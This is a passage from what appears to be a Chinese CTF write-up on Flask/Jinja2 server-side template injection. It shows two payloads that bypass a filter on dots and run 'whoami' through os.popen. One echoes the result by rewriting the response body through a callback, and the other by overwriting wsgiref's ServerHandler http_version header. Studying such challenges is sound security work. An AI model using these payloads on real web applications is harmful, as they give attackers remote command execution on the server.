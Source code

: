 一图胜千言：
![alt text](images/image10.png)

那么回到题目，我们需要做的就是结合SSTI重写响应内容。而响应内容从整体上分为两部分，即header和body，那么也就可以通过重写这两个部分其中的一个来回显我们要的内容。干！

#### Header回显

#### Body回显
直接上payload：
```python
{{cycler['__init__']['__globals__']['__builtins__']['exec']("getattr(request,'add_response_callback')(lambda request,response:setattr(response, 'text', getattr(getattr(__import__('os'),'popen')
('whoami'),'read')()))",{'request': request})}}
```
payload说明：
> 因为过滤了点，这里使用 [''] \
> cycler：在python ssti模板引擎中用于循环或迭代数据\
> setattr：setattr 是 Python 内置函数之一，可以用来设置对象的属性。例如：setattr(object, name, value)\
> modules： 这是一个字典，存储了当前解释器中所有已导入的模块。通过 sys.modules，我们可以访问和操作这些已导入的模块。

![alt text](images/image12.png)

#### Header回显
payload：
```python
{{cycler['__init__']['__globals__']['__builtins__']['setattr'](cycler['__init__']['__globals__']['__builtins__']['__import__']('sys') ['modules']['wsgiref']['simple_server']['ServerHandler'],'http_version',cycler['__init__']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']())}}
```
payload说明：
> wsgiref：是 Python 标准库中的一个模块，用于实现 WSGI协议。WSGI 是 Python Web 应用程序与 Web 服务器之间的标准接口，允许不同的 Web 服务器和框架之间进行互操作。所以这里可以使用wsgiref.simple_server创建一个简单的WSGI服务器\
> ServerHandler：它是 wsgiref.handlers 模块中的一个类，用于处理 WSGI 请求。它继承自 BaseHandler，并提供了一些额外的功能，如处理 HTTP 请求和响应。\
> http_version：它是 wsgiref.handlers.BaseHandler 类中的一个属性
